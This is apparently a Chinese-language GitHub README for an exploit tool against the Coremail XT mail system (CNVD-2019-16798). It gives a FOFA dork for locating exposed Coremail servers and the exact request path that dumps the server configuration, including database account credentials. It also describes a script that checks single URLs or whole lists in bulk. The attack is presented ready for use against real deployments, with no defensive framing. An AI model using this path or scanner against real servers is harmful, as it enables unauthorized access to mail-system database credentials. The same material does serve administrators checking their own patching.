



# 漏洞编号
CNVD-2019-16798
# 影响范围：
Coremail XT 3.0.1-XT 5.0.9
# FOFa dork：
app="Coremail邮件系统"
# 漏洞复现：
登录页面:  
   
漏洞地址：/mailsms/s?func=ADMIN:appState&dumpConfig=/   
直接访问漏洞地址即可获取泄露的数据库账号密码  
   
脚本使用方法：  
python3 CNVD-2019-16798 [-u url] [-f  Url.txt]  
如果使用-f参数脚本会将检查结果保存在当前目录下生成result.txt中  
   

